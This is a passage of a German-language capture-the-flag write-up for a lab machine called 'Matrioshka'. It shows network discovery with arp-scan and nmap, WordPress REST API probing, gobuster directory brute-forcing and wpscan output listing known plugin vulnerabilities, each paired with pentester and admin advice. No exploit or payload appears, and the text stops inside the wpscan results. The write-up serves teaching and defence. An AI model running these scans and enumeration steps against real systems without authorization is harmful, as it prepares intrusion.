

Verwendete Tools
Inhaltsverzeichnis
Reconnaissance
└─# arp-scan -l | grep "PCS" | awk '{print $1}'
192.168.2.180
Analyse: Der Befehl `arp-scan -l` wird verwendet, um das lokale Netzwerk nach aktiven Geräten mittels ARP-Requests zu durchsuchen. Die Option `-l` steht für `--localnet`, was bedeutet, dass `arp-scan` die Netzwerkschnittstellen des ausführenden Systems verwendet, um das Zielnetzwerk zu bestimmen. Die Ausgabe wird dann durch `grep "PCS"` gefiltert, um Zeilen zu finden, die "PCS" enthalten – dies deutet oft auf "PCS Systemtechnik GmbH" hin, einen Hersteller, der häufig mit Oracle VirtualBox virtualisierten Netzwerkkarten in Verbindung gebracht wird. Schließlich extrahiert `awk '{print $1}'` die erste Spalte dieser gefilterten Zeile, welche die IP-Adresse des gefundenen Geräts ist.
Bewertung: Dieser Schritt ist ein grundlegender und effektiver Weg, um schnell die IP-Adresse des Zielsystems in einem lokalen Testnetzwerk (CTF-Umgebung) zu identifizieren, besonders wenn man weiß, dass es sich um eine virtuelle Maschine handelt. Das Ergebnis `192.168.2.180` ist die IP-Adresse unserer Zielmaschine "Matrioshka". Dies ist der erste und wichtigste Schritt, um weitere Scans und Interaktionen mit dem Ziel zu beginnen. Für einen Laien ist dies wie das Finden der Hausnummer eines Hauses in einer Straße, bevor man es genauer untersuchen kann.
Empfehlung (Pentester):
Dieser Befehl ist gut für eine schnelle Identifizierung im LAN. Bei größeren oder unbekannten Netzwerken könnten zusätzliche Techniken wie Ping-Sweeps mit Nmap (`nmap -sn`) oder das Lauschen auf Netzwerkverkehr (z.B. mit `netdiscover`) hilfreich sein.
Empfehlung (Admin):
ARP-Scanning ist normaler Netzwerkverkehr. Um die Erkennung von Systemen zu erschweren (obwohl dies in den meisten Fällen wenig sicherheitsrelevant ist), könnten statische ARP-Einträge auf kritischen Systemen oder Intrusion Detection Systeme (IDS) verwendet werden, die übermäßige ARP-Anfragen melden. Wichtiger ist es jedoch, sicherzustellen, dass nur autorisierte Geräte im Netzwerk sind.
└─# vi /etc/hosts
192.168.2.180 matrioshka.hmv
Analyse: Der Befehl `vi /etc/hosts` öffnet die lokale Host-Datei des Angreifer-Systems (Kali Linux) im Texteditor `vi`. In diese Datei wird der Eintrag `192.168.2.180 matrioshka.hmv` hinzugefügt. Die `/etc/hosts`-Datei wird vom Betriebssystem genutzt, um Hostnamen manuell IP-Adressen zuzuordnen, bevor eine DNS-Abfrage durchgeführt wird.
Bewertung: Dies ist ein wichtiger Schritt, um die Interaktion mit der Zielmaschine zu vereinfachen, insbesondere wenn Webanwendungen oder andere Dienste Hostnamen erwarten. Durch diesen Eintrag kann der Pentester das Zielsystem nun über den Namen `matrioshka.hmv` ansprechen, anstatt immer die IP-Adresse `192.168.2.180` verwenden zu müssen. Dies ist besonders nützlich für virtuelle Host-Konfigurationen auf Webservern. Für einen Laien ist das wie das Speichern eines Spitznamens für eine Telefonnummer im Handy, um sich nicht die komplizierte Nummer merken zu müssen.
Empfehlung (Pentester):
Es ist eine gute Praxis, alle identifizierten relevanten Hostnamen (auch Subdomains oder virtuelle Hosts, die später entdeckt werden) in die `/etc/hosts`-Datei einzutragen. Dies stellt sicher, dass Tools wie Webbrowser oder Burp Suite die Anwendung korrekt auflösen.
Empfehlung (Admin):
Dieser Schritt erfolgt auf dem Angreifer-System und hat keine direkten Auswirkungen auf das Zielsystem. Es zeigt jedoch, wie Angreifer sich die Arbeit erleichtern. Serverseitig ist es wichtig, dass Dienste korrekt auf die erwarteten Hostnamen konfiguriert sind und nicht auf unerwartete Host-Header reagieren, die zu Schwachstellen führen könnten (z.B. Host-Header-Injection).
└─# nmap -sC -sS -sV -T5 -A 192.168.2.180 -p-
Starting Nmap 7.95 ( [Link: https://nmap.org | Ziel: https://nmap.org] ) at 2025-04-27 22:40 CEST Nmap scan report for matrioshka (192.168.2.180) Host is up (0.00013s latency). Not shown: 65533 closed tcp ports (reset) PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0) | ssh-hostkey: | 256 b5:a4:7c:65:5c:1f:d7:89:42:bd:76:df:2c:8e:93:4e (ECDSA) |_ 256 5d:3d:2b:43:fc:89:fa:24:a3:f4:73:5f:7b:89:6c:e3 (ED25519) 80/tcp open http Apache httpd 2.4.61 ((Debian)) |_http-server-header: Apache/2.4.61 (Debian) |_http-title: mamushka MAC Address: 08:00:27:A8:7A:8A (PCS Systemtechnik/Oracle VirtualBox virtual NIC) Device type: general purpose|router Running: Linux 4.X|5.X, MikroTik RouterOS 7.X OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) Network Distance: 1 hop Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE HOP RTT ADDRESS 1 0.13 ms matrioshka (192.168.2.180) OS and Service detection performed. Please report any incorrect results at [Link: https://nmap.org/submit/ | Ziel: https://nmap.org/submit/] . Nmap done: 1 IP address (1 host up) scanned in 14.11 seconds
Analyse: Dieser Nmap-Befehl führt einen umfassenden Scan des Zielsystems `192.168.2.180` durch: - `-sC`: Führt Standard-Nmap-Skripte aus (Default Script Scan). Diese Skripte können zusätzliche Informationen über Dienste sammeln oder bekannte Schwachstellen prüfen. - `-sS`: Führt einen TCP SYN-Scan (Stealth Scan) durch. Dieser Scan-Typ ist oft schneller und weniger auffällig als ein voller TCP-Connect-Scan. - `-sV`: Versucht, die Versionen der laufenden Dienste zu ermitteln (Version Detection). - `-T5`: Setzt das Timing-Template auf "insane". Dies beschleunigt den Scan erheblich, kann aber auf Kosten der Genauigkeit gehen oder von Intrusion Detection Systemen leichter erkannt werden. In einer CTF-Umgebung ist dies oft unproblematisch. - `-A`: Aktiviert die Betriebssystemerkennung, Versionserkennung, Skript-Scanning und Traceroute (Aggressive Scan). - `-p-`: Scannt alle 65535 TCP-Ports.
Bewertung: Der Nmap-Scan ist ein Kernstück der Reconnaissance-Phase. Er hat ergeben, dass zwei Ports offen sind: - **Port 22 (SSH):** Läuft OpenSSH Version 9.2p1 (Debian). Dies ist ein potenzieller Weg für einen Login, falls Zugangsdaten bekannt werden. Die Hostkeys werden ebenfalls angezeigt. - **Port 80 (HTTP):** Läuft ein Apache Webserver Version 2.4.61 (Debian). Der Titel der Webseite ist "mamushka". Dies ist der primäre Angriffsvektor, der weiter untersucht werden muss. Die MAC-Adresse bestätigt, dass es sich wahrscheinlich um eine VirtualBox VM handelt. Die Betriebssystemerkennung deutet auf ein Linux-System hin (Kernel 4.x/5.x). Die Traceroute zeigt eine direkte Verbindung. Für Laien: Nmap ist wie ein Detektiv, der alle Türen und Fenster (Ports) eines Hauses (Zielsystems) überprüft, feststellt, welche offen sind und welche Art von Schloss (Dienst) sie haben und wer dort möglicherweise wohnt (Version).
Empfehlung (Pentester):
Die Ergebnisse sind ein guter Ausgangspunkt. Port 80 sollte nun intensiv auf Web-Schwachstellen untersucht werden (Verzeichnis-Bruteforcing, Schwachstellen-Scans für Webanwendungen). Für SSH könnte man später versuchen, Standard- oder gefundene Zugangsdaten zu testen. Die spezifischen Versionen von OpenSSH und Apache sollten auf bekannte Exploits überprüft werden, obwohl neuere Versionen oft gut gepatcht sind.
Empfehlung (Admin):
Stellen Sie sicher, dass nur notwendige Ports offen sind. SSH sollte mit starken Passwörtern oder besser noch mit Key-basierten Authentifizierung gesichert werden. Fail2ban kann helfen, Brute-Force-Angriffe auf SSH und Web-Logins zu mitigieren. Halten Sie Apache und OpenSSH immer auf dem neuesten Stand, um bekannte Schwachstellen zu vermeiden. Überprüfen Sie Webserver-Konfigurationen auf Sicherheit (z.B. keine unnötigen Module, sichere Header).
Web Enumeration
└─# curl -Iv http://matrioshka.hmv
* Host matrioshka.hmv:80 was resolved. * IPv6: (none) * IPv4: 192.168.2.180 * Trying 192.168.2.180:80... * Connected to matrioshka.hmv (192.168.2.180) port 80 * using HTTP/1.x > HEAD / HTTP/1.1 > Host: matrioshka.hmv > User-Agent: curl/8.13.0 > Accept: */* > * Request completely sent off < HTTP/1.1 200 OK < Date: Sun, 27 Apr 2025 20:44:12 GMT < Server: Apache/2.4.61 (Debian) < X-Powered-By: PHP/8.2.22 < Link: <http://mamushka.hmv/index.php?rest_route=/>; rel="https://api.w.org/" < Content-Type: text/html; charset=UTF-8 < * Connection #0 to host matrioshka.hmv left intact
Analyse: Der Befehl `curl -Iv http://matrioshka.hmv` sendet eine HTTP HEAD-Anfrage an den Webserver. - `-I` (oder `--head`): Fordert nur die HTTP-Header vom Server an, nicht den eigentlichen Seiteninhalt. Dies ist schneller und effizienter für eine erste Inspektion. - `-v` (oder `--verbose`): Zeigt detaillierte Informationen über die Verbindung an, einschließlich der gesendeten Anfrage-Header und der empfangenen Antwort-Header. Die Ziel-URL ist `http://matrioshka.hmv`, welche dank unseres `/etc/hosts`-Eintrags korrekt zur IP `192.168.2.180` aufgelöst wird.
Bewertung:
Die Antwort `HTTP/1.1 200 OK` bestätigt, dass die Webseite erreichbar ist. Die Header liefern wertvolle Informationen:
- `Server: Apache/2.4.61 (Debian)`: Bestätigt die Apache-Version, die Nmap bereits gefunden hat.
- `X-Powered-By: PHP/8.2.22`: Zeigt, dass die Seite PHP in der Version 8.2.22 verwendet. Dies ist wichtig für die Suche nach PHP-spezifischen Schwachstellen oder Exploits.
- `Link:
Empfehlung (Pentester):
Der Hinweis auf `mamushka.hmv` und WordPress ist entscheidend. Der nächste Schritt sollte sein, `mamushka.hmv` ebenfalls in die `/etc/hosts`-Datei einzutragen und die WordPress-Installation genauer zu untersuchen (z.B. mit `wpscan`). Die PHP-Version sollte auf bekannte Schwachstellen überprüft werden.
Empfehlung (Admin):
Das Offenlegen von detaillierten Versionsinformationen (`X-Powered-By`, genaue `Server`-Header) kann Angreifern helfen. Es ist eine Überlegung wert, diese Header zu reduzieren oder zu entfernen (z.B. durch Apache-Konfiguration `Header unset X-Powered-By` und `ServerTokens Prod`). Dies ist jedoch eher "Security through Obscurity" und kein Ersatz für regelmäßige Updates und sichere Konfigurationen. Die WordPress REST API sollte, falls nicht zwingend benötigt, eingeschränkt oder deaktiviert werden.
└─# vi /etc/hosts
192.168.2.180 matrioshka.hmv mamushka.hmv
Analyse: Der Befehl `vi /etc/hosts` öffnet erneut die lokale Host-Datei. Der vorherige Eintrag wird modifiziert, um nun auch den Hostnamen `mamushka.hmv` der IP-Adresse `192.168.2.180` zuzuordnen. Dies basiert auf der Entdeckung im `Link`-Header der vorherigen `curl`-Anfrage.
Bewertung: Ein logischer und notwendiger Folgeschritt. Da die Webseite unter `mamushka.hmv` zu laufen scheint (zumindest die WordPress REST API), muss dieser Hostname auflösbar sein, damit Tools und der Browser korrekt mit der WordPress-Instanz interagieren können. Dies stellt sicher, dass Anfragen mit dem korrekten `Host`-Header an den Server gesendet werden.
Empfehlung (Pentester):
Korrekt gehandelt. Immer alle relevanten Hostnamen, die während der Enumeration entdeckt werden, der `/etc/hosts`-Datei hinzufügen.
Empfehlung (Admin):
Keine direkte Aktion für den Admin erforderlich, da dies auf dem Angreifer-System geschieht. Es unterstreicht jedoch die Wichtigkeit, die Konfiguration virtueller Hosts und die erwarteten Hostnamen serverseitig korrekt zu verwalten.
└─# curl http://mamushka.hmv/index.php?rest_route=/ -s | jq
{
"name": "mamushka",
"description": "",
"url": "http://mamushka.hmv",
"home": "http://mamushka.hmv",
"gmt_offset": "0",
"timezone_string": "",
"namespaces": [
"oembed/1.0",
"wp/v2",
"wp-site-health/v1",
"wp-block-editor/v1"
],
"authentication": [],
"routes": {
"/": {
"namespace": "",
"methods": [
"GET"
],
"endpoints": [
{
"methods": [
"GET"
],
"args": {
"context": {
"default": "view",
"required": false
}
}
}
],
......
.....
....
...
..
.
"description": "Scope under which the request is made; determines fields present in response.",
"type": "string",
"enum": [
"view",
"embed",
"edit"
],
"default": "view",
"required": false
}
}
}
]
}
},
"site_logo": 0,
"site_icon": 0,
"site_icon_url": "",
"_links": {
"help": [
{
"href": "[Link: https://developer.wordpress.org/rest-api/ | Ziel: https://developer.wordpress.org/rest-api/]"
}
]
}
}
Analyse: Dieser Befehl fragt die WordPress REST API-Endpunktinformationen ab: - `curl http://mamushka.hmv/index.php?rest_route=/ -s`: Sendet eine HTTP GET-Anfrage an den Basis-Endpunkt der WordPress REST API. Die Option `-s` (silent) unterdrückt den Fortschrittsbalken und Fehler von `curl`. - `| jq`: Die JSON-Ausgabe von `curl` wird an das Tool `jq` weitergeleitet. `jq` ist ein Kommandozeilen-JSON-Prozessor, der hier verwendet wird, um die JSON-Daten formatiert und lesbar darzustellen (Pretty Printing).
Bewertung: Die Ausgabe bestätigt eindeutig, dass es sich um eine WordPress-Seite handelt und die REST API aktiv ist. Wir sehen den Namen der Seite ("mamushka"), die URL, verschiedene Namespaces (wie `wp/v2` für Kern-API-Routen, `wp-site-health/v1`) und Informationen über verfügbare Routen. Dies ist eine Goldgrube für weitere Enumeration, da die REST API oft Benutzer, Beiträge, Seiten und andere WordPress-spezifische Informationen preisgeben kann, wenn sie nicht richtig gesichert ist. Die Kürzung der Ausgabe mit "......" ist üblich in Berichten, um die Lesbarkeit zu wahren, aber in einem echten Test würde man die volle Ausgabe analysieren.
Empfehlung (Pentester):
Die REST API sollte systematisch enumeriert werden. Tools wie `wpscan` können dies automatisiert tun. Manuell kann man versuchen, bekannte Endpunkte wie `/wp/v2/users`, `/wp/v2/posts`, `/wp/v2/pages` etc. abzufragen, um Benutzernamen, Inhalte und möglicherweise Schwachstellen in Plugins oder Themes zu finden, die eigene REST-Routen registrieren.
Empfehlung (Admin):
Die WordPress REST API ist standardmäßig sehr offen. Wenn nicht alle Funktionen benötigt werden, sollten ungenutzte Endpunkte deaktiviert oder der Zugriff darauf eingeschränkt werden (z.B. nur für authentifizierte Benutzer oder bestimmte IP-Adressen). Dies kann über Plugins oder benutzerdefinierten Code in der `functions.php` des Themes geschehen. Regelmäßige Updates von WordPress Core, Themes und Plugins sind entscheidend, um Schwachstellen in der REST API zu vermeiden.
└─# curl http://mamushka.hmv/index.php?rest_route=/ -s | jq | grep name | sort -u
"author_name": {
"default": "name",
"description": "A named status for the object.",
"description": "A named status for the post.",
"description": "Array of column names to be searched.",
"description": "A UUID provided by the application to uniquely identify it. It is recommended to use an UUID v5 with the URL or DNS namespace.",
"description": "Block name.",
"description": "Block namespace.",
"description": "Class names for the link element of this menu item.",
"description": "Display name for the comment author.",
"description": "Display name for the user.",
"description": "First name for the user.",
"description": "Last name for the user.",
"description": "Login name for the user.",
"description": "The name of the application password.",
"description": "The nickname for the user.",
"description": "Unique registered name for the block.",
"first_name": {
"last_name": {
"name",
"name": {
"name": "mamushka",
"namespace": {
"namespace": "",
"namespace": "oembed/1.0",
"namespaces": [
"namespace": "wp-block-editor/v1",
"namespace": "wp-site-health/v1",
"namespace": "wp/v2",
"nickname": {
"username": {
"/wp/v2/block-renderer/(?P<name>[a-z0-9-]+/[a-z0-9-]+)": {
"/wp/v2/block-types/(?P<namespace>[a-zA-Z0-9_-]+)": {
"/wp/v2/block-types/(?P<namespace>[a-zA-Z0-9_-]+)/(?P<name>[a-zA-Z0-9_-]+)": {
Analyse: Dieser Befehl ist eine Fortsetzung des vorherigen. Die JSON-Ausgabe der WordPress REST API wird erneut abgerufen, diesmal aber weiterverarbeitet: - `grep name`: Filtert alle Zeilen heraus, die das Wort "name" enthalten. - `sort -u`: Sortiert die gefilterten Zeilen und entfernt Duplikate (`-u` für unique). Ziel ist es, schnell alle Felder oder Eigenschaften zu identifizieren, die "name" in ihrem Schlüssel oder Wert enthalten, in der Hoffnung, interessante Bezeichner, Benutzernamen oder Routen-Parameter zu finden.
Bewertung:
Diese Methode ist ein schneller, aber recht grober Versuch, interessante Informationen zu extrahieren. Die Ausgabe zeigt verschiedene Kontext-abhängige "name"-Felder, wie `author_name`, `first_name`, `last_name`, `nickname`, `username` und den Seitennamen `mamushka`. Es zeigt auch Routen-Definitionen, die Platzhalter wie `(?P
Empfehlung (Pentester):
Für eine gründlichere Enumeration der Benutzer ist der Endpunkt `/wp/v2/users` (oder `/index.php?rest_route=/wp/v2/users`) direkt abzufragen. Die hier gefundenen Parameter könnten Hinweise für die Konstruktion von Anfragen an andere, vielleicht weniger bekannte Endpunkte geben. Denken Sie daran, dass manche WordPress-Installationen die Benutzerauflistung über die REST API einschränken.
Empfehlung (Admin):
Wie zuvor: Schränken Sie den Zugriff auf die REST API ein, insbesondere auf Endpunkte, die sensible Informationen wie Benutzerlisten preisgeben könnten. WordPress bietet Filter und Hooks, um das Verhalten der REST API anzupassen. Plugins wie "Disable REST API" können helfen, den Zugriff global oder selektiv zu steuern.
└─# gobuster dir -u "http://matrioshka.hmv" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -x txt,php,rar,zip,tar,pub,xls,docx,doc,sql,db,mdb,asp,aspx,accdb,bat,ps1,exe,sh,py,pl,gz,jpeg,jpg,png,html,phtml,xml,csv,dll,pdf,raw,rtf,xlsx,zip,kdbx,bak,svg,pem,crt,json,conf,ELF,elf,c,java,lib,cgi,csh,config,deb,desc,exp,eps,diff,icon,mod,ln,old,rpm,js.map,pHtml -b '503,404,403' -e --no-error -k
=============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://matrioshka.hmv [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt [+] Negative Status codes: 503,404,403 [+] User Agent: gobuster/3.6 [+] Extensions: csh,icon,ln,tar,db,raw,py,php,rar,doc,xlsx,exe,svg,gz,png,pem,elf,js.map,zip,docx,sql,jpg,pub,aspx,desc,cgi,old,html,jpeg,rtf,crt,conf,config,sh,phtml,txt,bat,ELF,rpm,asp,c,deb,diff,eps,xls,pdf,exp,pHtml,pl,csv,kdbx,json,lib,mdb,java,ps1,xml,mod,accdb,dll,bak [+] Expanded: true [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== http://matrioshka.hmv/index.php (Status: 301) [Size: 0] [--> http://matrioshka.hmv/] http://matrioshka.hmv/wp-content (Status: 301) [Size: 321] [--> http://matrioshka.hmv/wp-content/] http://matrioshka.hmv/wp-login.php (Status: 200) [Size: 3931] http://matrioshka.hmv/license.txt (Status: 200) [Size: 19915] http://matrioshka.hmv/wp-includes (Status: 301) [Size: 322] [--> http://matrioshka.hmv/wp-includes/] http://matrioshka.hmv/readme.html (Status: 200) [Size: 7409] http://matrioshka.hmv/wp-trackback.php (Status: 200) [Size: 135] http://matrioshka.hmv/wp-admin (Status: 301) [Size: 319] [--> http://matrioshka.hmv/wp-admin/] http://matrioshka.hmv/xmlrpc.php (Status: 405) [Size: 42] Progress: 2774953 / 13673914 (20.29%)^C [!] Keyboard interrupt detected, terminating. Progress: 2776640 / 13673914 (20.31%) =============================================================== Finished ===============================================================
Analyse: `gobuster` wird hier verwendet, um nach versteckten Verzeichnissen und Dateien auf dem Webserver zu suchen (Directory/File Bruteforcing). - `dir`: Gibt den Modus für Verzeichnis-/Datei-Enumeration an. - `-u "http://matrioshka.hmv"`: Die Ziel-URL. - `-w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt"`: Eine gängige Wortliste für Web-Content-Discovery. - `-x ...`: Eine sehr lange Liste von Dateierweiterungen, die an jeden Eintrag in der Wortliste angehängt und getestet werden sollen. - `-b '503,404,403'`: Statuscodes, die als "nicht gefunden" oder "nicht zugänglich" interpretiert und standardmäßig nicht angezeigt werden sollen (obwohl Gobuster manchmal trotzdem Weiterleitungen zu Fehlerseiten als Fund meldet). - `-e`: Expanded mode, zeigt die volle URL für jeden Fund. - `--no-error`: Unterdrückt Verbindungsfehler in der Ausgabe. - `-k`: Überspringt die SSL-Zertifikatsprüfung (hier nicht relevant, da HTTP). Der Scan wurde manuell mit `^C` (Strg+C) nach etwa 20% Fortschritt abgebrochen.
Bewertung: Obwohl der Scan abgebrochen wurde, hat `gobuster` bereits mehrere Standard-WordPress-Pfade und -Dateien gefunden: - `/index.php` (Weiterleitung zur Wurzel) - `/wp-content/` (enthält Themes, Plugins, Uploads) - `/wp-login.php` (die WordPress-Loginseite) - `/license.txt` und `/readme.html` (Standard-WordPress-Dateien, die Versionsinformationen enthalten können) - `/wp-includes/` (WordPress-Kernkomponenten) - `/wp-trackback.php` - `/wp-admin/` (Administrationsbereich) - `/xmlrpc.php` (WordPress XML-RPC-Schnittstelle, oft ein Ziel für Angriffe) Diese Funde bestätigen weiter, dass es sich um eine WordPress-Seite handelt und zeigen typische Einstiegspunkte oder Informationsquellen. Der Statuscode 405 für `xmlrpc.php` bedeutet "Method Not Allowed", was darauf hindeutet, dass die angefragte GET-Methode nicht erlaubt ist, aber der Endpunkt existiert (typischerweise erwartet er POST).
Empfehlung (Pentester):
Es ist ratsam, solche Scans vollständig durchlaufen zu lassen, es sei denn, man hat bereits genügend Informationen oder einen klaren Angriffsvektor. Die gefundenen Standardpfade sind ein guter Start. `wp-login.php` könnte für Brute-Force-Angriffe interessant sein (wenn keine besseren Optionen existieren). `xmlrpc.php` sollte auf bekannte Schwachstellen geprüft werden. Die `readme.html` kann die WordPress-Version verraten. Die lange Liste an Extensions ist gut für umfassende Tests, kann aber die Scandauer erheblich verlängern. Es könnte effizienter sein, zunächst nur mit gängigen Web-Extensions (`php, html, txt, js`) zu scannen und später spezifischer zu werden.
Empfehlung (Admin):
Entfernen Sie unnötige Dateien wie `license.txt` und `readme.html` von Produktivsystemen, um die Informationsbeschaffung für Angreifer zu erschweren. Schützen Sie den Zugriff auf `wp-login.php` und `xmlrpc.php` (z.B. durch Zwei-Faktor-Authentifizierung, IP-Whitelisting, Sicherheitsplugins oder Fail2ban). Regelmäßige Überprüfung auf öffentlich zugängliche, sensible Dateien oder Verzeichnisse ist wichtig. Eine Web Application Firewall (WAF) kann helfen, automatisierte Scans zu erkennen und zu blockieren.
└─# wpscan --url http://matrioshka.hmv/ --wp-content-dir /wp-content/ --enumerate vp --plugins-detection aggressive --api-token ....
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.28
Sponsored by Automattic - [Link: https://automattic.com/ | Ziel: https://automattic.com/]
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[i] It seems like you have not updated the database for some time.
[+] URL: http://matrioshka.hmv/ [192.168.2.180]
[+] Started: Sun Apr 27 23:00:44 2025
Interesting Finding(s):
[+] Headers
| Interesting Entries:
| - Server: Apache/2.4.61 (Debian)
| - X-Powered-By: PHP/8.2.22
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://matrioshka.hmv/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - [Link: http://codex.wordpress.org/XML-RPC_Pingback_API | Ziel: http://codex.wordpress.org/XML-RPC_Pingback_API]
| - [Link: https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/ | Ziel: https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/]
| - [Link: https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/ | Ziel: https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/]
| - [Link: https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/ | Ziel: https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/]
| - [Link: https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/ | Ziel: https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/]
[+] WordPress readme found: http://matrioshka.hmv/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] The external WP-Cron seems to be enabled: http://matrioshka.hmv/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - [Link: https://www.iplocation.net/defend-wordpress-from-ddos | Ziel: https://www.iplocation.net/defend-wordpress-from-ddos]
| - [Link: https://github.com/wpscanteam/wpscan/issues/1299 | Ziel: https://github.com/wpscanteam/wpscan/issues/1299]
Fingerprinting the version - Time: 00:00:01 <=============> (702 / 702) 100.00% Time: 00:00:01
[i] The WordPress version could not be detected.
[i] The main theme could not be detected.
[+] Enumerating Vulnerable Plugins (via Aggressive Methods)
Checking Known Locations - Time: 00:00:06 <============> (7343 / 7343) 100.00% Time: 00:00:06
[+] Checking Plugin Versions (via Passive and Aggressive Methods)
[i] Plugin(s) Identified:
[+] akismet
| Location: http://matrioshka.hmv/wp-content/plugins/akismet/
| Latest Version: 5.3.7
| Last Updated: 2025-04-14T23:37:00.000Z
|
| Found By: Known Locations (Aggressive Detection)
| - http://matrioshka.hmv/wp-content/plugins/akismet/, status: 403
|
| [!] 1 vulnerability identified:
|
| [!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
| Fixed in: 3.1.5
| References:
| - [Link: https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c | Ziel: https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357]
| - [Link: http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/ | Ziel: http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/]
| - [Link: https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html | Ziel: https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html]
|
| The version could not be determined.
[+] ultimate-member
| Location: http://matrioshka.hmv/wp-content/plugins/ultimate-member/
| Last Updated: 2025-04-24T17:16:00.000Z
| Readme: http://matrioshka.hmv/wp-content/plugins/ultimate-member/readme.txt
| [!] The version is out of date, the latest version is 2.10.3
|
| Found By: Known Locations (Aggressive Detection)
| - http://matrioshka.hmv/wp-content/plugins/ultimate-member/, status: 403
|
| [!] 7 vulnerabilities identified:
|
| [!] Title: Ultimate Member < 2.8.7 - Cross-Site Request Forgery to Membership Status Change
| Fixed in: 2.8.7
| References:
| - [Link: https://wpscan.com/vulnerability/2b670a80-2682-4b7f-a549-64a35345e630 | Ziel: https://wpscan.com/vulnerability/2b670a80-2682-4b7f-a549-64a35345e630]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-8520 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-8520]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/7ffddc03-d4ae-460e-972a-98804d947d09 | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/7ffddc03-d4ae-460e-972a-98804d947d09]
|
| [!] Title: Ultimate Member < 2.8.7 - Authenticated (Contributor+) Stored Cross-Site Scripting
| Fixed in: 2.8.7
| References:
| - [Link: https://wpscan.com/vulnerability/7488f9f3-03ea-4f4e-b5fb-c0dd02c5bb59 | Ziel: https://wpscan.com/vulnerability/7488f9f3-03ea-4f4e-b5fb-c0dd02c5bb59]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-8519 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-8519]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/9e394bb2-d505-4bf1-b672-fea3504bf936 | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/9e394bb2-d505-4bf1-b672-fea3504bf936]
|
| [!] Title: Ultimate Member < 2.9.0 - Missing Authorization to Authenticated (Subscriber+) Arbitrary User Profile Picture Update
| Fixed in: 2.9.0
| References:
| - [Link: https://wpscan.com/vulnerability/54a53b30-4249-4559-85f8-7aeac2dc0df2 | Ziel: https://wpscan.com/vulnerability/54a53b30-4249-4559-85f8-7aeac2dc0df2]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-10528 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-10528]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/0a9793b6-2186-46ef-b204-d8f8f154ebf3 | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/0a9793b6-2186-46ef-b204-d8f8f154ebf3]
|
| [!] Title: Ultimate Member – User Profile, Registration, Login, Member Directory, Content Restriction & Membership Plugin < 2.9.2 - Information Exposure
| Fixed in: 2.9.2
| References:
